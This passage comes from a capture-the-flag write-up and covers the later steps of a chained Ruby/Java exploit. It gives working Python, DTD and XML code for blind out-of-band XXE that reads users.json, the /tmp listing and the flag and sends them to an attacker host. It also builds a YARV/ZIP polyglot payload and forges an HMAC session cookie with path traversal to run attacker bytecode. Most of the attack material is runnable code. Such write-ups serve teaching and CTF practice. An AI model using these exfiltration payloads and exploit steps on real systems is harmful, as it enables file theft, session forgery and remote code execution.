+------------------------------------------+
```

**Why This Works:**

| Parser | Reads From | Sees | Ignores |
|--------|------------|------|---------|
| **Ruby (YARV)** | Beginning (0x00) | Valid YARB header + bytecode | Everything after bytecode size |
| **Java (ZIP)** | End (scans backwards) | Valid ZIP with Central Directory | Everything before first PK header |

**Python Code to Create Polyglot:**

```python
import io
import zipfile

def create_polyglot(yarv_bytecode: bytes, padding_size: int = 200*1024*1024) -> bytes:
    """
    Create a YARV/ZIP polyglot file.
    
    Args:
        yarv_bytecode: Compiled YARV bytecode from Ruby
        padding_size: Size of padding to extend download time (default 200MB)
    
    Returns:
        Polyglot file bytes
    """
    # Create ZIP in memory
    zip_buffer = io.BytesIO()
    
    with zipfile.ZipFile(zip_buffer, 'w', zipfile.ZIP_STORED) as zf:
        # Small dummy file (required for valid ZIP)
        zf.writestr("dummy.txt", b"x")
        
        # Large padding file to extend download time
        # ZIP_STORED = no compression, faster to generate
        zf.writestr("padding.bin", b"\x00" * padding_size)
    
    zip_data = zip_buffer.getvalue()
    
    # Concatenate: YARV first, then ZIP
    # Ruby reads YARV from start, Java reads ZIP from end
    polyglot = yarv_bytecode + zip_data
    
    return polyglot
```

**Verification:**

```python
# Verify it's a valid ZIP
import zipfile
with zipfile.ZipFile(io.BytesIO(polyglot)) as zf:
    print(f"ZIP entries: {zf.namelist()}")  # ['dummy.txt', 'padding.bin']

# Verify it's valid YARV (run in Ruby)
# RubyVM::InstructionSequence.load_from_binary(File.binread('polyglot.bin')).eval
```

So we create: `[YARV bytecode][ZIP data]`

Java reads it from the end and sees a valid ZIP. Ruby reads it from the beginning and sees valid YARV bytecode.

### Step 6: Blind OOB XXE Leaks users.json

### Why We Need users.json

To understand why we need `users.json`, we must first understand how the Ruby application validates session cookies.

**The Session Cookie Format:**

```
session_id|signature
Example: abc123def456|7f8e9d0c1b2a3456789012345678901234567890123456789012345678901234
         |             |
         |             +-- HMAC-SHA256 signature
         +-- Path to session file (or path traversal payload)
```

**Session Validation Code (from app.rb):**

```ruby
# Sign a session - ONLY signs the username, NOT the session_id!
def sign_session(username, secret)
  OpenSSL::HMAC.hexdigest('SHA256', secret, username)
end

# Verify the signature matches
def verify_signature(username, signature, secret)
  expected = sign_session(username, secret)
  signature == expected  # Constant-time comparison should be used here
end

# Parse the session cookie
def parse_session_cookie(cookie)
  return nil unless cookie
  parts = cookie.split('|')
  return nil unless parts.length == 2
  { session_id: parts[0], signature: parts[1] }
end

# Load session from disk (VULNERABLE to path traversal)
def load_session(session_id)
  session_path = File.join(settings.sessions_dir, session_id)
  return nil unless File.exist?(session_path)
  
  yarv_binary = File.binread(session_path)
  iseq = RubyVM::InstructionSequence.load_from_binary(yarv_binary)
  iseq.eval  # Executes the bytecode!
end
```

**The users.json Structure:**

```json
{
  "users": [
    {
      "id": 1,
      "username": "test",
      "password_hash": "$2a$12$LQv3c1yqBWVHxkd0LHAkCOYz6TtxMQJqhN8/X4.DVZm3D3YvC1xyz",
      "secret": "a1b2c3d4e5f6789012345678901234567890123456789012345678901234",
      "created_at": "2026-02-06T10:00:00Z"
    }
  ],
  "next_id": 2
}
```

**Why Each Field Matters:**

| Field | Purpose | Needed for Attack? |
|-------|---------|-------------------|
| `id` | User identifier | No |
| `username` | Login name | Yes - we registered it |
| `password_hash` | BCrypt hash | No - we know password |
| **`secret`** | **HMAC signing key** | **YES - CRITICAL!** |
| `created_at` | Timestamp | No |

**The Cryptographic Flaw:**

The HMAC signature is computed as:
```ruby
HMAC-SHA256(secret, username)
#           |        |
#           Key      Message
```

Notice that **only the username is signed**, NOT the session_id! This means:
1. If we know the `secret` and `username`, we can compute a valid signature
2. The `session_id` part of the cookie is completely unverified
3. We can set `session_id` to a path traversal payload

**Why We Can't Forge Without the Secret:**

```
Without secret:
  username = "test"
  secret = ???
  signature = HMAC-SHA256(???, "test") = Cannot compute!

With secret (from users.json):
  username = "test"
  secret = "a1b2c3d4e5f6789012345678901234567890123456789012345678901234"
  signature = HMAC-SHA256(secret, "test") = "7f8e9d0c1b2a..."  [VALID]
```

**The Attack Flow:**

```
1. Register user "test" -> secret generated and stored in users.json
2. XXE leak users.json -> We obtain: secret = "a1b2c3d4..."
3. Compute signature:
   sig = HMAC-SHA256("a1b2c3d4...", "test") = "7f8e9d0c..."
4. Forge cookie:
   "../../../tmp/jar_cache123.tmp|7f8e9d0c..."
   |                              |
   Path traversal                 Valid signature!
5. Server validates:
   - Parses cookie -> session_id = "../../../tmp/jar_cache123.tmp"
   - Loads session -> Gets username from YARV bytecode
   - Verifies sig  -> HMAC("a1b2c3d4...", "test") == "7f8e9d0c..." [OK]
   - Executes RCE!
```

### Understanding Blind XXE with Out-of-Band Exfiltration

The Java WebSocket server's `processXml` function has an **inverted EntityResolver** that accidentally allows dangerous protocols. Let's examine the vulnerable code:

**The Vulnerable EntityResolver (from WsServer.java):**

```java
private void processXml(WebSocket conn, String base64Xml) {
    try {
        byte[] xmlBytes = Base64.getDecoder().decode(base64Xml);
        String xmlContent = new String(xmlBytes, StandardCharsets.UTF_8);
        
        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        DocumentBuilder builder = factory.newDocumentBuilder();
        
        // VULNERABLE: Inverted logic!
        builder.setEntityResolver((publicId, systemId) -> {
            try {
                if (systemId != null) {
                    String lowerSystemId = systemId.toLowerCase();
                    // BUG: This BLOCKS everything EXCEPT http:// and file://
                    if (!lowerSystemId.startsWith("http://") && !lowerSystemId.startsWith("file://")) {
                        return new InputSource(new StringReader(""));  // Block
                    }
                }
                return null;  // Allow - lets the parser fetch the URL!
            } catch (Exception e) {
                return new InputSource(new StringReader(""));
            }
        });
        
        builder.parse(new InputSource(new StringReader(xmlContent)));
    } catch (Exception e) {
    }
    
    sendGenericResponse(conn);
}
```

**The Logic Bug Explained:**

```
Developer's Intent (what they probably wanted):
  if (systemId.startsWith("http://") || systemId.startsWith("file://")) {
      return new InputSource("");  // BLOCK dangerous protocols
  }
  return null;  // Allow safe protocols

What They Actually Wrote (inverted!):
  if (!systemId.startsWith("http://") && !systemId.startsWith("file://")) {
      return new InputSource("");  // Block everything ELSE
  }
  return null;  // ALLOW http:// and file:// - DANGEROUS!
```

**Protocol Access Matrix:**

| Protocol | Intended | Actual | Result |
|----------|----------|--------|--------|
| `http://` | Block | **ALLOWED** | Can fetch external DTDs |
| `file://` | Block | **ALLOWED** | Can read local files |
| `https://` | Allow | Blocked | - |
| `jar://` | Allow | **BLOCKED** | Cannot upload files! |
| `ftp://` | Allow | Blocked | - |

### Why We Can't Use jar: Through XXE

This is critical to understanding why we needed the TLS/AIA SSRF attack:

```
XXE Attempt with jar: Protocol:
  <!ENTITY % payload SYSTEM "jar:http://attacker/polyglot.zip!/x">
  
  What happens:
  1. Parser sees systemId = "jar:http://attacker/polyglot.zip!/x"
  2. EntityResolver checks: does it start with "http://"? NO (starts with "jar:")
  3. EntityResolver checks: does it start with "file://"? NO
  4. Both conditions false -> returns empty InputSource -> BLOCKED!
```

**The XXE can only:**
- [YES] Read files with `file://` -> Used to leak `users.json` and `/tmp` directory
- [YES] Make HTTP requests with `http://` -> Used for OOB exfiltration
- [NO] Use `jar:` protocol -> **BLOCKED by EntityResolver**

**This is why we need TWO different SSRF vectors:**

| Task | Vector | Why This Vector |
|------|--------|-----------------|
| Leak `users.json` | XXE (`file://`) | EntityResolver allows `file://` |
| Leak `/tmp` directory | XXE (`file://`) | EntityResolver allows `file://` |
| Exfiltrate data | XXE (`http://`) | EntityResolver allows `http://` |
| **Upload polyglot to /tmp** | **TLS AIA SSRF** | **XXE blocks `jar://`, but Java's TLS cert validation doesn't!** |

**The TLS AIA SSRF Bypass:**

Java's PKIX TrustManager (used in TLS certificate validation) has **no EntityResolver filtering**. When it fetches AIA URLs, it uses `uri.toURL().openConnection()` which supports ALL protocols including `jar:`:

```java
// From URICertStore.java - NO protocol filtering!
URLConnection connection = uri.toURL().openConnection();
// Supports: http://, https://, jar://, ftp://, etc.
```

**Attack Summary:**

```
┌─────────────────────────────────────────────────────────────┐
│ XXE (WebSocket Server)                                       │
| +-- file:// [OK] -> Read users.json, /tmp                   |
| +-- http:// [OK] -> OOB exfiltration                         |
| +-- jar://  [NO] -> BLOCKED by EntityResolver                |
├─────────────────────────────────────────────────────────────┤
│ TLS AIA SSRF (TLS Server)                                   │
| +-- http:// [OK]                                             |
| +-- https:// [OK]                                            |
| +-- jar://  [OK] -> ALLOWED! Upload polyglot to /tmp         |
└─────────────────────────────────────────────────────────────┘
```

This is why the exploit chains BOTH vulnerabilities - XXE for data exfiltration, TLS AIA for file upload.

### The Blind XXE Technique

However, the XML response is never returned to us - we only get `{"status": "ok"}`. This makes it a **blind XXE** vulnerability.

To exfiltrate data from a blind XXE, we use **Out-of-Band (OOB) exfiltration** with parameter entities. The technique works by:

1. Our XML payload references an external DTD on our server
2. The external DTD reads a local file into a parameter entity
3. The DTD constructs another entity that makes an HTTP request to our server with the file contents in the URL
4. We receive the data on our HTTP server

**The DTD Chain:**

```xml
<!-- users.dtd served by attacker -->
<!ENTITY % file SYSTEM "file:///opt/external-app/users.json">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker:9090/exfil?data=%file;'>">
%eval;
%exfil;
```

When the parser processes this:
1. `%file;` is replaced with the contents of `/opt/external-app/users.json`
2. `%eval;` defines a new entity `%exfil;` with the file contents embedded in the URL
3. `%exfil;` triggers an HTTP request to `http://attacker:9090/exfil?data={"users":[{"id":1,"username":"test","password_hash":"$2a$12$LQv3c1yqBWVHxkd0LHAkCOYz6TtxMQJqhN8/X4.DVZm3D3YvC1xyz","secret":"a1b2c3d4e5f6789012345678901234567890123456789012345678901234","created_at":"2026-02-06T10:00:00Z"}],"next_id":2}`

### The Space and Newline Limitation

**Critical:** This OOB technique only works because `users.json` is a **single-line JSON file** with no spaces in critical positions. If the file contained newlines or spaces, the attack would fail because:

1. URLs cannot contain unencoded newlines - the HTTP request would be malformed
2. Spaces in URLs must be encoded, but the XML parser doesn't URL-encode the substituted content
3. The parameter entity substitution happens literally, so `file:///etc/passwd` (which has newlines) would break the URL

The Ruby application writes `users.json` using `JSON.generate()` which produces compact single-line JSON by default, making this attack possible.

### Implementation

```python
@app.route("/users.dtd")
def serve_dtd_users():
    dtd = f"""<!ENTITY % file SYSTEM "file:///opt/external-app/users.json">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://{ATTACKER_HOST}:{ATTACKER_PORT}/exfil?data=%file;'>">
%eval;
%exfil;"""
    return dtd, 200, {"Content-Type": "application/xml-dtd"}

@app.route("/exfil")
def exfil():
    global exfil_data
    data = request.args.get("data", "")
    if data:
        exfil_data = data
    return "", 200

def xxe_leak(dtd_name):
    xml_payload = f"""<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "http://{ATTACKER_HOST}:{ATTACKER_PORT}/{dtd_name}">
%xxe;
]>
<root></root>"""
    
    ws = websocket.WebSocket()
    ws.connect(f"ws://{TARGET_HOST}:{TARGET_RUBY_PORT}/ws-bridge", cookie=f"session={session_cookie}")
    
    xml_b64 = base64.b64encode(xml_payload.encode()).decode()
    message = json.dumps({"action": "process_xml", "xml": xml_b64})
    ws.send(message)
    ws.close()
    
    time.sleep(3)
    return exfil_data
```

The exfiltrated `users.json` contains the `secret` field we need:

```json
{"users":[{"id":1,"username":"test","password_hash":"$2a$12$LQv3c1yqBWVHxkd0LHAkCOYz6TtxMQJqhN8/X4.DVZm3D3YvC1xyz","secret":"a1b2c3d4e5f6789012345678901234567890123456789012345678901234","created_at":"2026-02-06T10:00:00Z"}],"next_id":2}
```

### Forging the Session Cookie

The HMAC signature flaw allows us to use any session_id:

```python
def forge_session(jar_file, user_secret):
    # Path traversal to reach our polyglot in /tmp
    path = f"../../../tmp/{jar_file}"
    
    # HMAC is over USERNAME only, not the session_id!
    sig = hmac.new(user_secret.encode(), USERNAME.encode(), hashlib.sha256).hexdigest()
    
    return f"{path}|{sig}"
```

### Step 7: Blind OOB XXE Leaks /tmp Directory

### How file:// Can List Directories in Java

A lesser-known feature of Java's `file://` URL handler is that it can **list directory contents**, not just read files. This is crucial for our attack because we need to discover the random filename of the `jar_cache*.tmp` file.

**Java's FileURLConnection Source Code:**

```java
// From OpenJDK src/java.base/share/classes/sun/net/www/protocol/file/FileURLConnection.java
package sun.net.www.protocol.file;

public class FileURLConnection extends URLConnection {
    
    private File file;
    private InputStream is;
    private boolean isDirectory = false;
    private String[] files;  // Directory listing stored here!
    
    public void connect() throws IOException {
        file = new File(url.getFile());
        
        // Check if path is a directory
        isDirectory = file.isDirectory();
        
        if (isDirectory) {
            // LIST ALL FILES IN DIRECTORY!
            files = file.list();  // Returns String[] of filenames
        }
    }
    
    public InputStream getInputStream() throws IOException {
        connect();
        
        if (isDirectory) {
            // For directories: return a listing as InputStream
            // Format: one filename per line
            return new ByteArrayInputStream(getDirectoryListing().getBytes());
        } else {
            // For files: return file contents
            return new BufferedInputStream(new FileInputStream(file));
        }
    }
    
    // Generates the directory listing text
    private String getDirectoryListing() {
        StringBuilder sb = new StringBuilder();
        for (String filename : files) {
            sb.append(filename).append("\n");
        }
        return sb.toString();
    }
}
```

**How This Works in Practice:**

```java
// Reading a FILE:
URL fileUrl = new URL("file:///etc/passwd");
InputStream is = fileUrl.openStream();
// Returns: "root:x:0:0:root:/root:/bin/bash\n..."

// Reading a DIRECTORY:
URL dirUrl = new URL("file:///tmp/");  // Note the trailing slash
InputStream is = dirUrl.openStream();
// Returns: "jar_cache8234892348923.tmp\nhsperfdata_root\n..."
//          ^-- Each filename on its own line!
```

**Why Trailing Slash Matters:**

```
file:///tmp   -> Might be treated as file named "tmp"
file:///tmp/  -> Explicitly a directory, returns listing
```

### XXE Directory Listing Attack

When the XML parser resolves `file:///tmp/`, Java's FileURLConnection:
1. Opens `/tmp/` as a directory
2. Calls `file.list()` to get all filenames
3. Returns them as a newline-separated string
4. This string gets substituted into our DTD entity
5. We exfiltrate it via HTTP to our server

```
XXE Entity Resolution:
  SYSTEM "file:///tmp/"
         |
         v
  Java FileURLConnection
         |
         v
  file.isDirectory() = true
         |
         v
  file.list() = ["jar_cache8234892348923.tmp", "hsperfdata_root", ...]
         |
         v
  Returns: "jar_cache8234892348923.tmp\nhsperfdata_root\n..."
```

### Racing to Find the Filename

While the large polyglot file is downloading (Step 4), we have ~20 seconds to find its filename:

```python
@app.route("/tmp.dtd")
def serve_dtd_tmp():
    dtd = f"""<!ENTITY % file SYSTEM "file:///tmp/">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://{ATTACKER_HOST}:{ATTACKER_PORT}/exfil?data=%file;'>">
%eval;
%exfil;"""
    return dtd, 200, {"Content-Type": "application/xml-dtd"}

def leak_tmp():
    content = xxe_leak("tmp.dtd")
    # content = "jar_cache8234892348923.tmp\nhsperfdata_root\nsystemd-private-xxx\n..."
    for line in content.split("\n"):
        if "jar_cache" in line and ".tmp" in line:
            return line.strip()  # "jar_cache8234892348923.tmp"
    return None
```

**Example Exfiltrated Directory Listing:**

```
GET /exfil?data=jar_cache8234892348923.tmp
hsperfdata_root
systemd-private-abc123-systemd-resolved.service-xyz
.X11-unix
.font-unix
```

We parse this response and extract the `jar_cache*.tmp` filename.

**Why This Works (No Newline Problem):**

Unlike `users.json`, we CAN exfiltrate directory listings with newlines because:
1. The URL encoding happens at the HTTP layer
2. Each filename is short and doesn't contain spaces
3. Most HTTP servers accept newlines in query parameters (they get URL-encoded)
4. We only need to find ONE line containing `jar_cache`

### Step 8: Use Secret to Craft HMAC Signature

### Understanding the Session Cookie Format

The Ruby application uses a custom session format: `session_id|hmac_signature`

```ruby
# From app.rb - how session cookies are created (in POST /login)
session_id = SecureRandom.hex(16)  # 32 hex chars
create_session(session_id, username)  # Creates YARV bytecode file
signature = sign_session(username, user['secret'])
session_cookie = create_session_cookie(session_id, signature)
# session_cookie = "#{session_id}|#{signature}"

# The signing function - ONLY signs username!
def sign_session(username, secret)
  OpenSSL::HMAC.hexdigest('SHA256', secret, username)
end

# Cookie format helper
def create_session_cookie(session_id, signature)
  "#{session_id}|#{signature}"
end
```

### The Cryptographic Flaw

The critical vulnerability is that the HMAC signature is computed over **only the username**, not the session_id:

```ruby
OpenSSL::HMAC.hexdigest('SHA256', secret, username)
#                                        ^^^^^^^^
#                                        Only this is signed!
```

**What should have been signed:**
```ruby
# Secure implementation would sign both:
OpenSSL::HMAC.hexdigest('SHA256', secret, "#{session_id}|#{username}")
```

**Impact:** If an attacker knows a user's `secret` (which we leaked via XXE), they can compute a valid signature for that username. The `session_id` portion of the cookie is **completely unverified** - we can set it to anything, including path traversal sequences.

### How Session Verification Works

When `/profile` receives a request, it calls `parse_session`:

```ruby
def parse_session(cookie, secret)
  return nil if cookie.nil? || cookie.empty?
  
  parts = cookie.split('|')
  return nil unless parts.length == 2
  
  session_id = parts[0]
  signature = parts[1]
  
  # Extract username from session_id... but we control session_id!
  # For path traversal, this extraction fails, but the code continues
  
  # Verify signature - only checks username, not session_id!
  expected_sig = sign_session(username, secret)
  return nil unless Rack::Utils.secure_compare(signature, expected_sig)
  
  session_id  # Returns our path traversal string!
end
```

The `session_id` is then passed directly to `load_session`:

```ruby
def load_session(session_id)
  session_path = File.join(settings.sessions_dir, session_id)
  # session_id = "../../../tmp/jar_cache123.tmp"
  # session_path = "/opt/external-app/sessions/../../../tmp/jar_cache123.tmp"
  # Resolves to: "/tmp/jar_cache123.tmp"
  
  return nil unless File.exist?(session_path)
  
  yarv_binary = File.binread(session_path)
  iseq = RubyVM::InstructionSequence.load_from_binary(yarv_binary)
  iseq.eval  # EXECUTES OUR PAYLOAD!
end
```

### Forging the Cookie

```python
import hmac
import hashlib

def forge_session(jar_file, user_secret):
    # Path traversal: escape from /opt/external-app/sessions/ to /tmp/
    # sessions/ -> ../ (1)
    # external-app/ -> ../ (2)  
    # opt/ -> ../ (3)
    # Now at root, descend into /tmp/
    path = f"../../../tmp/{jar_file}"
    
    # Compute valid HMAC for our username
    # The secret was leaked from users.json via XXE
    sig = hmac.new(
        user_secret.encode(),   # The user's secret from users.json
        USERNAME.encode(),       # Our registered username
        hashlib.sha256
    ).hexdigest()
    
    # Cookie format: session_id|signature
    # session_id = path traversal to our YARV payload
    # signature = valid HMAC for our username
    return f"{path}|{sig}"

# Example:
# jar_file = "jar_cache8234892348923.tmp"
# user_secret = "a1b2c3d4e5f6789012345678901234567890123456789012345678901234"
# USERNAME = "test"
# 
# Result: "../../../tmp/jar_cache8234892348923.tmp|7f8e9d0c1b2a3456789012345678901234567890123456789012345678901234"
```

### Why This Works

1. **We know the secret** - Leaked via XXE from `users.json`
2. **We know the username** - We registered it ourselves
3. **HMAC only covers username** - The signature verifies successfully
4. **session_id is untrusted** - Ruby uses it directly in `File.join`
5. **Path traversal is unfiltered** - `../` sequences work in `File.join`
6. **File is executed as bytecode** - `load_from_binary` + `eval` = RCE

### Step 9: Path Traversal on Session Cookie ID

```python
def trigger_rce(forged_cookie):
    resp = requests.get(f"{RUBY_URL}/profile", cookies={"session": forged_cookie})
    return resp.status_code == 200

trigger_rce(forged_cookie)
time.sleep(1)
```

### Step 10: Load YARV Bytecode and Exfiltrate Flag

The YARV payload executed `readflag > /tmp/flag_output.txt`. Now we exfiltrate via XXE:

```python
@app.route("/flag.dtd")
def serve_dtd_flag():
    dtd = f"""<!ENTITY % file SYSTEM "file:///tmp/flag_output.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://{ATTACKER_HOST}:{ATTACKER_PORT}/exfil?data=%file;'>">
%eval;
%exfil;"""
    return dtd, 200, {"Content-Type": "application/xml-dtd"}

flag = xxe_leak("flag.dtd")
print(f"FLAG: {flag}")
```



## Conclusion

This challenge demonstrates a sophisticated multi-stage attack that chains together **seven distinct vulnerabilities** across two different technology stacks in **10 exploitation steps**:

| Step | Action | Vulnerability Used |
|------|--------|-------------------|
| 1 | Ruby slice bug bypasses port validation | Ruby UTF-8 slice bug |
| 2 | Downgrade WebSocket to raw TCP tunnel | Ruby UTF-8 slice bug |
| 3 | TLS handshake triggers AIA SSRF | Java TLS AIA SSRF (CVE-2026-21945) |
| 4 | jar: protocol uploads file to /tmp | Java jar: URL race condition |
| 5 | Create YARV/ZIP polyglot payload | - |
| 6 | Blind OOB XXE leaks users.json | Java XXE (inverted EntityResolver) |
| 7 | Blind OOB XXE leaks /tmp directory | Java XXE (inverted EntityResolver) |
| 8 | Use secret to craft HMAC signature | HMAC signature flaw |
| 9 | Path traversal on session cookie ID | Path traversal |
| 10 | Load YARV bytecode -> RCE -> Exfiltrate flag | YARV bytecode RCE + Java XXE |

**Vulnerabilities Exploited:**

1. **Ruby UTF-8 slice bug** - Returns more characters than requested when processing malformed UTF-8 sequences, bypassing port validation (Steps 1-2).

2. **Java XXE (inverted EntityResolver)** - Accidentally allows `http://` and `file://` protocols while blocking safer alternatives (Steps 6, 7, 10).

3. **Java TLS AIA SSRF (CVE-2026-21945)** - Fetches missing CA certificates from AIA URLs before completing validation (Step 3).

4. **Java jar: URL cache race condition** - Writes entire remote file to `/tmp/jar_cache*.tmp` before validating (Step 4).

5. **HMAC signature design flaw** - Signature computed over username only, allowing arbitrary session IDs (Step 8).

6. **Path traversal** - `File.join()` doesn't sanitize `../` sequences, allowing access to files outside the sessions directory (Step 9).

7. **YARV bytecode RCE** - `load_from_binary()` has no verifier, executing attacker-controlled bytecode (Step 10).

The exploit requires precise timing and coordination between multiple components but results in full RCE on the target system.

## References

### Vulnerability Research

| Topic | Source | Author |
|-------|--------|--------|
| Ruby String#slice Bug | [Ruby's String Slice is Broken](https://nastystereo.com/security/ruby-slice.html) | nastystereo |
| Java TLS AIA SSRF (CVE-2026-21945) | [Tenable Discovers SSRF Vulnerability in Java TLS Handshakes That Creates DoS Risk](https://www.tenable.com/blog/tenable-discovers-ssrf-vulnerability-in-java-tls-handshakes-that-creates-dos-risk) | Tenable Research |

### Official Documentation

| Topic | Source |
|-------|--------|
| YARV / RubyVM::InstructionSequence | [Ruby 3.3 Documentation - RubyVM::InstructionSequence](https://docs.ruby-lang.org/en/3.3/RubyVM/InstructionSequence.html) |
| Java JarURLConnection | [Oracle Java SE 8 - JarURLConnection](https://docs.oracle.com/javase/8/docs/api/java/net/JarURLConnection.html) |
| X.509 Authority Information Access | [RFC 5280 - Internet X.509 PKI Certificate and CRL Profile](https://datatracker.ietf.org/doc/html/rfc5280#section-4.2.2.1) |

### OpenJDK Source Code

| Component | Source |
|-----------|--------|
| URLJarFile.java | [openjdk/jdk - URLJarFile.java](https://github.com/openjdk/jdk/blob/master/src/java.base/share/classes/sun/net/www/protocol/jar/URLJarFile.java) |
| JarURLConnection.java | [openjdk/jdk - JarURLConnection.java](https://github.com/openjdk/jdk/blob/master/src/java.base/share/classes/sun/net/www/protocol/jar/JarURLConnection.java) |

### Related CVEs

| CVE | Description |
|-----|-------------|
| CVE-2026-21945 | Java TLS AIA SSRF vulnerability - Oracle January 2026 CPU |

### Additional Reading

- [ZIP File Format Specification](https://pkware.cachefly.net/webdocs/casestudies/APPNOTE.TXT) - Understanding ZIP structure for polyglot creation
- [UTF-8 Encoding](https://en.wikipedia.org/wiki/UTF-8) - Understanding continuation bytes (`0x80`-`0xBF`)
- [XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) - OWASP XXE reference
- [Blind XXE via Out-of-Band Exfiltration](https://portswigger.net/web-security/xxe/blind) - PortSwigger XXE techniques
